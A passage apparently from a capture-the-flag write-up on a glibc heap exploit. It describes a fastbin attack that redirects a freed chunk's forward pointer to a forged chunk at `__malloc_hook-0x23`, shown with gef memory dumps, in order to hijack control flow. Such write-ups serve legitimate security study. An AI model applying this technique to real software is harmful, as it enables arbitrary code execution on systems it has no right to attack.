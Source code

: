 One good place to write to would be `__malloc__hook` symbol. This is usually just NULL but if the value at that address is not null whenever malloc is called, the program counter will jump to the address specified in `__malloc_hook`. There is also a `__free_hook` as well that could be used.

To do this write we need the following chunks:
1. Chunk to use heap overflow to overwrite chunk #'s FD to `__malloc_hook`
2. Chunk to be free'd
3. Chunk to be free'd that will then contain the FD pointing to chunk 2

And then free chunk 2 and 3.

A look at the fastbin linked list:
```
────── Fastbins for arena 0x7fc38ec36b20 ────────────────────────────────────────────────────────────────────────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70]  ←  Chunk(addr=0x55b740217270, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x7fc38ec36b20, size=0x0, flags=) [incorrect fastbin_index] 
Fastbins[idx=6, size=0x80] 0x00
```
This shows that our chunk that points to `__malloc_hook` is corrupt because the size is 0x0.
We need to search the memory around `__malloc_hook` to find a chunk of memory that would resemble a heap chunk so that it would have a valid size.

The memory before the `__malloc_hook`:
```
0x7fc38ec36a90 <_IO_wide_data_0+208>:   0x0000000000000000      0x0000000000000000
0x7fc38ec36aa0 <_IO_wide_data_0+224>:   0x0000000000000000      0x0000000000000000
0x7fc38ec36ab0 <_IO_wide_data_0+240>:   0x0000000000000000      0x0000000000000000
0x7fc38ec36ac0 <_IO_wide_data_0+256>:   0x0000000000000000      0x0000000000000000
0x7fc38ec36ad0 <_IO_wide_data_0+272>:   0x0000000000000000      0x0000000000000000
0x7fc38ec36ae0 <_IO_wide_data_0+288>:   0x0000000000000000      0x0000000000000000
0x7fc38ec36af0 <_IO_wide_data_0+304>:   0x00007fc38ec35260      0x0000000000000000
0x7fc38ec36b00 <__memalign_hook>:       0x00007fc38e914b00      0x00007fc38e914aa0
0x7fc38ec36b10 <__malloc_hook>: 0x0000000000000000      0x0000000000000000
```
None of those look like they fit the structure of a heap chunk, luckly this address does not need to be aligned so we can use the MSB of the address at `__memalign_hook` (0x7f) to be a valid size.

```
gef➤  x/32gx 0x7fc38ec36b10-0x23
0x7fc38ec36aed <_IO_wide_data_0+301>:   0xc38ec35260000000      0x000000000000007f    <--- forged chunk (prev_size, size)
0x7fc38ec36afd: 0xc38e914b00000000      0xc38e914aa000007f
0x7fc38ec36b0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000
0x7fc38ec36b1d: 0x0000000000000000      0x0000000000000000
```

Using `__malloc_hook-0x23` gives us a valid chunk with a prev_size of 0xc38ec35260000000 and a size of 0x7f.
